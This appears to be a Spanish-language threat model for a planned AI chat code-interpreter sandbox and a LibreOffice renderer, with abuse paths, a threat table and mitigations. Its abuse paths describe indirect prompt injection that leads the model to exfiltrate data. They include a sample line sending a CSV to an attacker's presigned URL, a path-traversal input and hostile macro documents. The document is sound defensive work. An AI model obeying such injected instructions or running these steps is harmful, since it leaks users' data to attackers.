

# Sandbox de código del chat (Code Interpreter detrás del Gateway) y render de documentos: modelo de amenazas (v0.1)

> Fecha: 2026-11-07 · Skill: `security-threat-model`. Plan: [`docs/specs/chat-capacidades-plan.md`](../../specs/chat-capacidades-plan.md) (§5, fases 2 y 3, §7). Decisiones que lo enmarcan: D114 (sandbox de código detrás del Gateway), D115 (presupuesto por tiempo), D117 (render de Office con LibreOffice) y D119 (skills de documentos con helpers de la release), **por registrar en P0**; reglas 1, 3, 4 y 5 de `AGENTS.md`; D13, D16, D25, D26, D39, D58, D73, D90, D92.
> Amplía `mango-architecture-threat-model.md` (TM-001 inyección indirecta, TM-007 aislamiento entre personas, TM-012 contenido no confiable) e `identity-propagation-threat-model.md` (identidad hasta el destino). Los archivos (subida, descarga, escaneo) están en [`chat-files-threat-model.md`](chat-files-threat-model.md) y el trabajador que corre el turno en [`turn-worker-threat-model.md`](turn-worker-threat-model.md).
> v0.1 se escribe **antes** de construir: no hay código ni recursos. La evidencia es la de la prueba del 2026-11-07 en una instalación (Code Interpreter del sistema, solo lectura, plan §2.1), los modelos de servicio de botocore y el código de `main`. Supuestos confirmados el 2026-11-07, por menú, por el agente que lanzó este trabajo (ver «Supuestos validados»).

## Executive summary

El modelo podrá ejecutar Python en un **AgentCore Code Interpreter propio de la instalación** (`Mango_<ns>_sandbox`, red `SANDBOX`, **sin rol de ejecución**), al que solo llega una Lambda de Mango, `connectors/code-interpreter`, como target del Gateway. El código lo escribe el modelo y es, por definición, no confiable: puede venir dictado por un adjunto, un documento de KB o el resultado de otra tool. Los riesgos dominantes son:

1. **Cruce entre personas dentro del mismo recurso.** IAM no acota por sesión (las acciones de sesión solo admiten el ARN del Code Interpreter): el `sessionId` es la única barrera. Si llega al modelo, al navegador, a un log o a otra conversación, cualquier código o persona con él lee y escribe la sesión ajena (TM-CI1).
2. **Exfiltración desde el sandbox.** Sin credenciales, el código no tiene a quién pedir datos, pero puede sacar lo que hay en la sesión (adjuntos, resultados) si la red `SANDBOX` deja salir a S3 ajeno o a una URL prefirmada de un atacante. No está probado (T5); **C2 no se integra hasta que T5 lo diga** (TM-CI3).
3. **Inyección indirecta con ejecución.** Un adjunto o un resultado de tool pide al modelo que empaquete otros archivos, que genere un documento con un enlace o una macro, o que imprima texto que la persona tome por bueno (TM-CI4, TM-CI6).
4. **Gasto.** Cada celda cuesta tiempo de cómputo y una sesión viva cobra memoria aunque esté ociosa; un bucle del agente o muchas conversaciones agotan presupuesto y las 30 TPS de `InvokeCodeInterpreter` de la cuenta (TM-CI7).
5. **Contenido sin revisar en pantalla.** El guardrail síncrono (D39) no revisa la entrada ni el resultado de una tool; el bloque «Analizando» mostraría código y salida del modelo sin revisar. **Decidido:** pasan por `ApplyGuardrail` antes de mostrarse (TM-CI5).
6. **`render-document`:** LibreOffice abre archivos que pudo escribir el atacante (el modelo, un adjunto). Un fallo del parser no debe dar más que la propia Lambda, que no tiene red ni más permisos que su prefijo (TM-CI8).

Ninguno queda en **high** si se construyen las mitigaciones listadas con su PR. El residual más alto es TM-CI3 (**medium**, condicionado a T5).

## Scope and assumptions

- **Dentro:**
  - el recurso `CodeInterpreterCustom` y su red (C1);
  - el conector `connectors/code-interpreter/` con `run_python`, `list_files` y `read_file`, su registro de sesiones y la copia de salidas a S3 (C2);
  - la capacidad `code_interpreter` del agente, su firma y la reserva de presupuesto (C3);
  - lo que el trabajador manda al chat del bloque «Analizando» (C4) y el bloque en la web (W1), solo en lo que toca a contenido no confiable;
  - la hidratación de la sesión con adjuntos (U1, solo el lado del sandbox);
  - la Lambda-contenedor `render-document` (D1), las skills de documentos y sus helpers (D2) y la vuelta de los renders al modelo (D3).
- **Fuera:** la subida, el escaneo y la descarga de archivos (`chat-files-threat-model.md`); el trabajador, la cola y el stream (`turn-worker-threat-model.md`); el sandbox de UI y Canvas (V0, `ui-sandbox-threat-model.md`, pendiente); memoria (M0); la tool integrada `agentcore_code_interpreter` del harness, **descartada** por el dueño (decisión 1 del plan).
- **Supuestos:**
  1. El Code Interpreter va en `SANDBOX` y **sin `executionRoleArn`**. Comprobado en el del sistema el 2026-11-07: sin internet, metadatos con 401, sin credenciales de AWS. Que el custom sin rol se comporte igual se confirma en C1.
  2. Usuario sin privilegios en el sandbox, 2 vCPU, 8 GB, ~10 GB de disco; el aislamiento entre sesiones es de AWS (microVM por sesión) y está fuera del alcance de Mango.
  3. El Gateway valida el JWT; el interceptor borra el `_mango_ctx` que mande el modelo y pone el token y la firma `X-Mango-Invocation` v2 que nombra la versión del agente y sus tools (`functions/gateway-interceptor/.../handler.py`). El conector reverifica token y firma, como `knowledge-retrieve`.
  4. La persona es de confianza para sus propios datos. El atacante es quien controla contenido que el modelo lee (adjunto, documento, resultado de tool, página de un MCP remoto) o una persona autenticada que busca la sesión de otra.
  5. No se instala nada en la sesión: ni `pip` ni `npm`. Solo lo preinstalado y los helpers firmados de la release (D119), copiados con `writeFiles`.
- **Preguntas abiertas:** T5 (salida a S3 ajeno), L (tiempo máximo de una llamada del Gateway a un target Lambda: fija el corte de celda), G (si una imagen en un resultado MCP llega al modelo: D3).

## System model

### Primary components

| Componente | Qué hace | Evidencia o PR |
|---|---|---|
| Harness del agente | Llama a `code___run_python` por su `remote_mcp` al Gateway, con el token de la persona y la firma de `mango-api` | `apps/api/src/mango_api/harness.py:284` (hoy); C3 |
| Gateway + interceptor | Valida JWT, Cedar L2, borra `_mango_ctx` del modelo, pone token y firma | `functions/gateway-interceptor/` (hoy); C2 añade el target `code` |
| `connectors/code-interpreter` (Lambda) | Reverifica token y firma; busca o crea la sesión de (persona, conversación); ejecuta; copia salidas a S3; devuelve solo texto con tope; mide el uso | C2 |
| Registro de sesiones (DynamoDB) | `sessionId` cifrado con KMS, ligado a persona y conversación, con TTL | C2 |
| `Mango_<ns>_sandbox` (`CodeInterpreterCustom`) | Ejecuta el código; `SANDBOX`, sin rol | C1 |
| Bucket `Mango-<ns>-chat-files` | Salidas de cada celda bajo `owner//conv/<id>/` | C1, `chat-files-threat-model.md` |
| `render-document` (Lambda-contenedor) | LibreOffice headless: archivo por id → PDF y PNG por página a S3 y a la sesión | D1 |
| Trabajador del turno | Reserva, invoca, traduce el resultado a mensajes `code.run_python` y pasa lo mostrado por `ApplyGuardrail` | C4, R2 |

### Data flows and trust boundaries

- **Modelo → harness → Gateway.** Cruza el código (argumento de la tool), no confiable. Canal: MCP sobre HTTPS con el JWT de la persona y `X-Mango-Invocation`. El guardrail no lo revisa (D39).
- **Gateway → conector.** Invocación Lambda del servicio; el interceptor añade `_mango_ctx` con el token. El conector reverifica (`iss`, `aud`, `exp`, `token_use`) y la firma (versión, tool).
- **Conector → Code Interpreter.** SigV4 con el rol de la Lambda: `Start/Invoke/Stop/GetCodeInterpreterSession` sobre el ARN exacto de `Mango_<ns>_sandbox`. La sesión se nombra por cabecera; **no hay control de IAM por sesión**.
- **Sandbox → red.** `SANDBOX`: sin internet; «acceso limitado a servicios de AWS, S3 incluido» según la documentación (T5).
- **Conector → S3.** `PutObject` de las salidas en `owner//conv/<id>/<archivo>` con CMK; `GetObject` de adjuntos con `NO_THREATS_FOUND` para hidratar.
- **Conector → modelo.** Texto con tope (stdout, stderr, excepción, lista de archivos por id). Nunca `sessionId`, rutas internas reales ni URLs firmadas.
- **Trabajador → navegador.** Código, stdout y stderr mostrados, tras `ApplyGuardrail`; figuras y archivos solo por id.
- **`render-document`.** Recibe un id de archivo del Gateway; lee de S3 el objeto, convierte en `/tmp` y escribe el resultado. Sin red de salida más allá de S3 y KMS.

#### Diagram

## Assets and security objectives

| Activo | Por qué importa | Objetivo |
|---|---|---|
| `sessionId` de cada sesión | Única barrera entre personas dentro del recurso | Confidencialidad |
| Contenido de la sesión (adjuntos, DataFrames, archivos generados) | Datos de negocio de la persona | Confidencialidad, integridad |
| Rol de la Lambda del conector | Puede invocar cualquier sesión del recurso y escribir en `owner/` | Confidencialidad |
| Presupuesto de persona y agente | Cómputo por segundo y memoria de sesiones vivas | Disponibilidad, integridad (regla 4) |
| Cuota de la cuenta (30 TPS, 1000 sesiones) | Compartida por todas las conversaciones | Disponibilidad |
| Garantía de D39 | Nada sin revisar llega a la persona | Integridad del control |
| Origen de la SPA | Un archivo o texto mostrado como marcado sería XSS | Integridad |
| Imagen de `render-document` | Código de la release que abre archivos hostiles | Integridad (D58) |

## Attacker model

### Capabilities

- Hacer que el modelo ejecute código arbitrario en la sesión (por inyección o pidiéndolo como persona).
- Poner archivos hostiles en la sesión (adjunto propio; documento de KB; salida de una tool).
- Pedir muchas celdas, celdas largas o muchas conversaciones con sesión.
- Una persona autenticada puede llamar a las rutas de Mango con su propio token.

### Non-capabilities

- No llama al Gateway sin pasar por `mango-api`: sin la firma `X-Mango-Invocation` el interceptor rechaza (hallazgo F1 de la auditoría).
- No elige la sesión: el conector la deriva del token (persona) y de la firma (conversación); el modelo no la nombra.
- No tiene credenciales de AWS dentro del sandbox (sin rol; IMDS 401, comprobado en el del sistema).
- No instala paquetes de internet (`SANDBOX` sin internet, comprobado).
- No escapa de la microVM del servicio (fuera de alcance; responsabilidad de AWS).

## Entry points and attack surfaces

| Superficie | Cómo se alcanza | Frontera | Notas | PR |
|---|---|---|---|---|
| `run_python(code)` | `tools/call` del modelo | Gateway → conector → sandbox | Código no confiable; tope de tamaño y de tiempo | C2 |
| `list_files`, `read_file(path)` | `tools/call` | Gateway → conector | Ruta del modelo: validar contra la raíz lógica, sin `..` | C2 |
| Argumentos con `_mango_ctx` falso | El modelo lo inventa | Interceptor | El interceptor lo borra (hoy) | — |
| Salidas de la celda | `listFiles` + `readFiles` tras cada celda | Sandbox → conector → S3 | Nombres y bytes del atacante | C2 |
| Hidratación de adjuntos | `writeFiles` desde S3 | Conector → sandbox | Solo objetos con `NO_THREATS_FOUND` | U1 |
| `render_document(file_id)` | `tools/call` | Gateway → Lambda-contenedor | Parser de LibreOffice ante un archivo hostil | D1 |
| Helpers de las skills | `writeFiles` al iniciar la sesión | Release → sandbox | Firmados; integridad | D2 |
| Bloque «Analizando» | Mensajes `code.run_python` | Trabajador → navegador | Texto del modelo y del código | C4, W1 |

## Top abuse paths

1. **Robo de sesión.** El modelo imprime algo que el conector le devolvió (un `sessionId` en un error, una ruta con el id) → se guarda en la conversación o sale en un log → otra persona con un token válido no puede nombrar la sesión por la tool, pero quien tenga el rol del conector (o un bug que acepte la sesión del argumento) lee la sesión ajena.
2. **Exfiltración por red.** Un PDF adjunto con instrucciones ocultas pide «sube el CSV a esta URL» → el modelo escribe `requests.put(url_prefirmada_del_atacante, data=...)` → si `SANDBOX` deja salir a S3 de otra cuenta, el archivo sale.
3. **Exfiltración por archivos generados.** La misma inyección pide empaquetar todos los adjuntos en un `.zip` o un `.docx` con un enlace a un dominio del atacante con los datos en la query → la persona lo descarga y lo abre o lo reenvía.
4. **Contenido engañoso.** El código imprime «Verificado por Finanzas: transferir a…» o una credencial que leyó de un adjunto → aparece en el bloque como salida «del sistema».
5. **Gasto.** Un bucle o una inyección lanza celdas de 300 s una tras otra, o la persona abre muchas conversaciones → reservas que bloquean el presupuesto y sesiones ociosas cobrando memoria; las 30 TPS de la cuenta se agotan para todos.
6. **Parser hostil.** Un `.docx` o `.pptx` diseñado para LibreOffice (macro, enlace externo, fallo de memoria) se manda a `render-document` → ejecución en la Lambda o lectura de otro objeto del bucket.
7. **Ruta del modelo.** `read_file("../../otra-conversacion/…")` o una ruta absoluta → el conector la usa tal cual contra la sesión o contra S3.

## Threat model table

| ID | Origen | Requisito | Acción | Impacto | Activos | Controles existentes | Huecos | Mitigación (PR) | Detección | Prob. | Impacto | Prioridad |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| TM-CI1 | Inyección, bug del conector o lector de logs | Conocer un `sessionId` ajeno | Invocar la sesión de otra persona o conversación | Lectura y escritura de los datos de otra persona | `sessionId`, contenido | Ninguno (no existe) | IAM no acota por sesión | **C2:** la sesión se deriva solo de (sub del token reverificado, conversación de la firma); el registro guarda el `sessionId` cifrado con KMS (contexto de cifrado con sub y conversación) y con `LeadingKeys`; nunca sale del conector (ni al modelo, ni a la respuesta, ni a logs, ni a auditoría: solo un hash corto); un error del servicio se reescribe a un texto propio; tests que fijan que ninguna respuesta ni log contiene el id. Nombre de sesión de AWS (`name`) sin datos de la persona | Auditoría `code.execute` con el hash de sesión, sub y conversación; alarma si un hash aparece con dos sub | Baja | Alta | **medium** |
| TM-CI2 | Persona autenticada | Su token y su conversación | Pedir al conector una conversación que no es suya | Usar la sesión ajena | Contenido | Firma `X-Mango-Invocation` v2 por sub y versión | La firma aún no nombra la conversación | **C2/C3:** la firma lleva la conversación y el turno; el conector rechaza si sub del token ≠ sub de la firma; L1 `OwnConversation` en el trabajador antes de invocar (R2) | `policy.decision` denegada | Baja | Alta | **medium** |
| TM-CI3 | Inyección indirecta | Datos en la sesión | Sacar datos por la red `SANDBOX` (S3 de otra cuenta, URL prefirmada, DNS) | Fuga de datos de la persona fuera de la cuenta | Contenido | `SANDBOX` sin internet (comprobado en el del sistema); sin credenciales | No probado si deja `PUT` a S3 ajeno (T5) | **C1:** prueba T5 en el custom sin rol (URL prefirmada de otra cuenta, `aws s3 ls` de un bucket público, DNS). **C2 no se integra** si T5 muestra salida sin una mitigación decidida por el dueño (p. ej. modo VPC sin salida). Decidido por el dueño el 2026-11-07, por menú, vía el agente que lanzó este trabajo («T5 bloquea C2») | Métricas de red del CI si existen (T10); CloudTrail de datos de S3 en la cuenta no ve buckets ajenos | Media (sin T5) | Alta | **medium** (residual condicionado a T5) |
| TM-CI4 | Inyección indirecta | Adjuntos y resultados en la sesión | Generar archivos que filtran o dañan: zip de todo, enlaces con datos en la URL, macros, HTML o SVG | Fuga por la persona, phishing, ejecución al abrir | Contenido, la persona | Ninguno | — | **C2/D2:** lista cerrada de extensiones de salida (sin HTML, SVG, macros `.docm/.xlsm/.pptm`, ejecutables); comprobación por bytes; tarjeta con origen («generado por el agente en esta conversación»); **C5** `attachment` siempre y tipo del servidor; escaneo de malware también de los generados (`chat-files-threat-model.md`). La sesión es de una conversación: no ve archivos de otras | Auditoría `code.execute` con número, tipos y bytes de archivos | Media | Media | **medium** |
| TM-CI5 | Modelo o inyección | Salida de una celda | Mostrar código o stdout sin revisar (credenciales leídas, texto engañoso, contenido que el guardrail bloquearía) | Rompe la garantía de D39 | D39, secretos | El guardrail revisa el texto final | No revisa tools | **C4:** el trabajador pasa código, stdout y stderr que se muestran (con tope) por `ApplyGuardrail` del guardrail base antes de enviarlos; si bloquea, «Contenido retenido». Decidido por el dueño el 2026-11-07, por menú, vía el agente que lanzó este trabajo. **W1:** se pinta como texto plano en `<pre>`, nunca como Markdown ni HTML; el bloque dice que es salida del código | Métrica de bloqueos del guardrail en el bloque | Media | Media | **low** (con C4) |
| TM-CI6 | Modelo o inyección | Resultado de la tool | Devolver al modelo stdout enorme o con instrucciones | Contexto envenenado, coste de tokens | Integridad del turno, presupuesto | Inyección indirecta tratada en TM-001 | — | **C2:** respuesta al modelo solo texto, con tope (p. ej. 16 KiB) y marca de truncado; delimitada como salida no confiable; archivos por id, no por contenido | — | Alta | Baja | **medium** |
| TM-CI7 | Agente en bucle, inyección o persona | Capacidad `code_interpreter` | Agotar presupuesto, sesiones o las 30 TPS | Gasto y denegación del chat de todos | Presupuesto, cuota | D73 (reserva y liquidación), topes del turno (`maxIterations`, `timeoutSeconds`) | No hay reserva por tiempo | **C3:** `_code_reserve` = llamadas posibles × corte de celda × precio por segundo (catálogo, regla 7) + arranque; **C2:** corte propio de celda (300 s o lo que permita L), una sesión viva por conversación, `sessionTimeoutSeconds` corto (15–30 min) y `Stop` explícito; límite de sesiones por persona; uso medido por celda y liquidación; «no sé lo que costó» se retiene (D73). Backoff ante throttling y cola en el trabajador | Alarma de throttling de `InvokeCodeInterpreter`; costo por tag del recurso en el CUR | Media | Media | **medium** |
| TM-CI8 | Archivo hostil | Un id de archivo propio | Explotar LibreOffice en `render-document` (macro, enlace externo, fallo del parser) | Ejecución en la Lambda; leer otros objetos del bucket | Bucket, rol de la Lambda | — | — | **D1:** macros desactivadas y enlaces externos apagados en el perfil; perfil nuevo por invocación en `/tmp`; sin red de salida salvo S3/KMS (Lambda fuera de la VPC: no hay control de salida, ver residual); rol que solo lee el objeto pedido (prefijo del dueño y de la conversación, que vienen de la firma, no del modelo) y escribe su resultado; tiempo y memoria acotados; solo tipos de la lista; imagen construida y firmada en la release (D58), con escaneo de vulnerabilidades en el CI | Errores y tiempos de la Lambda; alarma de fallos | Baja | Media | **low** |
| TM-CI9 | Modelo | `read_file`/`list_files` con ruta | Recorrer fuera de la raíz lógica o pedir objetos de S3 de otra conversación | Leer archivos internos o ajenos | Contenido | — | — | **C2:** las rutas se normalizan y se validan contra la raíz lógica (`/mnt/data`), sin `..`, absolutas ni control (reglas de §2.3 del plan); S3 solo con claves que construye el conector desde sub y conversación de la firma | Rechazos auditados | Media | Media | **low** |
| TM-CI10 | Cambio futuro | Configuración del recurso | Añadir un rol de ejecución o red `PUBLIC` | Credenciales al alcance del código; internet | Rol, contenido | — | — | **C1:** test de infraestructura que fija `SANDBOX` y la ausencia de `ExecutionRoleArn`; el boundary de agentes sigue sin acciones de Code Interpreter (no la usa el harness); solo el rol del conector tiene `*CodeInterpreterSession`, sobre el ARN exacto | cdk-nag, cfn-guard, test | Baja | Alta | **low** |
| TM-CI11 | Lector de logs | Logs de la Lambda o trazas | Ver código, salidas o datos | Contenido en logs operativos (D16) | Contenido | D16: sin contenido en logs | — | **C2:** la Lambda no registra argumentos, código, stdout ni nombres de archivo; auditoría `code.execute` solo con duración, estado, conteos y bytes; el contenido vive solo en `Conversations` o S3 con CMK | Revisión del logger en tests | Baja | Media | **low** |
| TM-CI12 | Release comprometida o helper alterado | Helpers de skills | Código distinto al revisado en cada sesión | Integridad del resultado | Integridad | Firma de la release (D36, D58) | — | **D2:** helpers en el artefacto firmado; el conector comprueba sha256 antes de `writeFiles`; nombres de módulo no registrables en PyPI | Fallo de hash auditado | Baja | Media | **low** |

## Criticality calibration

- **high:** acceso a la sesión o a los archivos de otra persona; credenciales de AWS al alcance del código; salida a internet confirmada sin control.
- **medium:** exfiltración posible pero no probada; archivos generados peligrosos sin escaneo; gasto sin tope; contenido sin revisar de forma sistemática.
- **low:** fallos acotados por el rol de una Lambda, rutas rechazadas, contenido ya revisado.

## Focus paths for security review

| Ruta (cuando exista) | Por qué | Amenazas |
|---|---|---|
| `connectors/code-interpreter/` | Derivación de sesión, cifrado del `sessionId`, rutas, topes | TM-CI1, CI2, CI6, CI9, CI11 |
| `infra/lib/constructs/` del Code Interpreter y `tools.ts` | Red, rol, permisos del conector, política Cedar L2 | TM-CI3, CI10 |
| `functions/gateway-interceptor/` | Firma con conversación y turno | TM-CI2 |
| `apps/api/src/mango_api/` (reserva, trabajador) | `_code_reserve`, `ApplyGuardrail` | TM-CI5, CI7 |
| `functions/render-document/` (D1) y su Dockerfile | Perfil de LibreOffice, rol | TM-CI8 |
| `apps/web/src/components/chat/` (bloque) | Texto plano, sin Markdown | TM-CI5 |

## Supuestos validados

Confirmados el 2026-11-07, por menú, por el agente que lanzó este trabajo:

- Lo que el bloque «Analizando» muestra (código, stdout, stderr) pasa por `ApplyGuardrail` antes de enviarse («ApplyGuardrail a lo mostrado (Recomendada)»).
- La salida por la red `SANDBOX` queda abierta hasta la prueba T5 de C1; C2 no se integra si T5 muestra salida sin una mitigación que decida el dueño («T5 bloquea C2 (Recomendada)»).
- Al borrar una conversación (cuando exista esa ruta) o dar de baja a una persona, se para su sesión del Code Interpreter y se borra su registro («Borrar con la conversación (Recomendada)»).

## Riesgos residuales (necesitan aceptación del dueño)

- **TM-CI3:** hasta T5 no se sabe si la red `SANDBOX` deja salir a S3 ajeno. Si lo deja, la alternativa es el modo VPC sin salida, que cambia D15.
- **TM-CI1:** el `sessionId` sigue siendo la única barrera dentro del recurso; quien controle el rol del conector puede leer cualquier sesión viva (como el rol de `mango-api` puede leer cualquier conversación hoy).
- **TM-CI8:** `render-document` va fuera de la VPC (excepción `LAMBDA_INSIDE_VPC`): no hay control de salida de red si LibreOffice se explotara; lo acota que su rol no tenga más que su objeto.
- **TM-CI6:** una inyección indirecta puede seguir dirigiendo el código dentro de la sesión de la persona; el daño queda dentro de esa conversación y sin escritura fuera (las tools de escritura siguen exigiendo aprobación, D56).

## Quality check

- Entradas cubiertas: las tres tools del conector, `render_document`, hidratación, helpers, bloque en la web.
- Fronteras representadas: modelo → Gateway (CI2, CI6), Gateway → conector (CI2), conector → sandbox (CI1, CI9), sandbox → red (CI3), conector → S3 (CI4), trabajador → navegador (CI5), release → sandbox (CI12), render (CI8).
- Runtime frente a CI: la imagen de `render-document` se construye en el CI de la release (D58); nada se construye en la cuenta del cliente (regla 1).
